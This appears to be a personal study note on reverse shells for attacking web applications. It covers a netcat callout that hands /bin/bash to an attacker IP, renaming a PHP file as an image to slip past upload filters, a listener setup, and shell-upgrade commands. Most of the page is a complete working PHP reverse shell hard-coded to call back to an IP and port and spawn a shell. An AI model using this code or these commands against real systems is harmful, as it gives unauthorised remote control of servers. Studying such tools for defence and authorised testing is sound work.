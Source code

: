 Using reverse shell where the target server reaches out to you, or less common bind shell where it's the other way around, you reach out to server for the shell.
Why reverse shell is better?
Well by running an outbound connection we bypass the firewall rules.

First rev shell that I learned about is php reverse shell.
Which is a malicious php script that you can setup to call to your ip on a xyz port.
And run it on a vulnerable webapp.

Later there will be an example php rev shell with brief explanation.


Hopefully the if you are trying to upload the rev shell, the target would have some sort of security in place stopping you from running .php files or uploading them in the first place.

### Netcat for reverse shell
Using netcat to call out for a rev shell to an attacker machine. 
```bash
nc 192.168.1.1 4444 -e /bin/bash
```
### Script obfuscation 

In order to bypass some basic filters you can rename your file to script.php.png.
Possibly actually making the file a gif and putting code into it.

### How to make it work

In order for the script to execute and call to you, let's assume you already setup the script and uploaded it to the webapp, next thing you need to do is find that directory on path and go to that webpage.
When trying to access it the script will execute hopefully.

You will need to setup a netcat listener on your terminal to receive the connection.
```shell
nc -nvlp 4444
# netcat listening on port 4444
# l - listnen for inbound
# p - port number set
# n - numeric only ipv4
# v - verbose mode
```

Once connected odds are you will have a poor shell, that will just be a $ symbol.
You will be getting error/warning messages when trying to run su command or anything that is important to you like sudo and entering passwords.

### Upgrading your shell

You can upgrade your shell via some clever commands that will allow more functionality.
You could also try running netcat with a wrapper like rlwrap to have autocompletion and allow some other stuff like arrow keys. (up to you)

```python
python -c 'import pty;pty.spawn("/bin/bash")'
```

```shell
ps -p $$    # check process id of current shell
export TERM=xterm  # set terminal type to ensure functionality
^Z    # ctrl+z move current process in background
stty raw -echo    # set terminal type - raw mode w/ disabled terminal echo
fg   # resume process from background to foreground
```

This method works great for my uses.
Also there is another one which I had problems with for entering passwords it was broken.
```shell
/usr/bin/script -qc /bin/bash /dev/null
```

### Php script

```php
<?php
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip   = isset($_POST['ip']) ? $_POST['ip']   : '10.9.163.154';
$ip = '10.9.163.154';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
$port  = isset($_POST['port']) ? $_POST['port']   : '4444';
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
        // Fork and have the parent process exit
        $pid = pcntl_fork();

        if ($pid == -1) {
                printit("ERROR: Can't fork");
                exit(1);
        }

        if ($pid) {
                exit(0);  // Parent exits
        }

        // Make the current process a session leader
        // Will only succeed if we forked
        if (posix_setsid() == -1) {
                printit("Error: Can't setsid()");
                exit(1);
        }

        $daemon = 1;
} else {
        printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
        printit("$errstr ($errno)");
        exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
        printit("ERROR: Can't spawn shell");
        exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
        // Check for end of TCP connection
        if (feof($sock)) {
                printit("ERROR: Shell connection terminated");
                break;
        }

        // Check for end of STDOUT
        if (feof($pipes[1])) {
                printit("ERROR: Shell process terminated");
                break;
        }

        // Wait until a command is end down $sock, or some
        // command output is available on STDOUT or STDERR
        $read_a = array($sock, $pipes[1], $pipes[2]);
        $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

        // If we can read from the TCP socket, send
        // data to process's STDIN
        if (in_array($sock, $read_a)) {
                if ($debug) printit("SOCK READ");
                $input = fread($sock, $chunk_size);
                if ($debug) printit("SOCK: $input");
                fwrite($pipes[0], $input);
        }

        // If we can read from the process's STDOUT
        // send data down tcp connection
        if (in_array($pipes[1], $read_a)) {
                if ($debug) printit("STDOUT READ");
                $input = fread($pipes[1], $chunk_size);
                if ($debug) printit("STDOUT: $input");
                fwrite($sock, $input);
        }

        // If we can read from the process's STDERR
        // send data down tcp connection
        if (in_array($pipes[2], $read_a)) {
                if ($debug) printit("STDERR READ");
                $input = fread($pipes[2], $chunk_size);
                if ($debug) printit("STDERR: $input");
                fwrite($sock, $input);
        }
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
        if (!$daemon) {
                print "$string\n";
        }
}

?> 
```

This script includes some initial values set such as your ip and port.
Some code fore networking such as using sockets and keeping the connection alive.
Interacting with the shell via /bin/bash path and daemonizing the process aka running it in the background, and trying to avoid zombie processes aka hanging processes whose parent process stopped running for one or another rason.

Script also takes care I/O is piped to your connection using phps functionality.

Terminology:
- **Daemonize**: The process of converting a program into a background process that runs independently of any user or terminal session.
- **Zombie Process**: A child process that has completed execution but still has an entry in the process table because its parent has not yet read its exit status.
- **proc_open()**: A PHP function used to execute a command and open pipes to interact with its input, output, and error streams.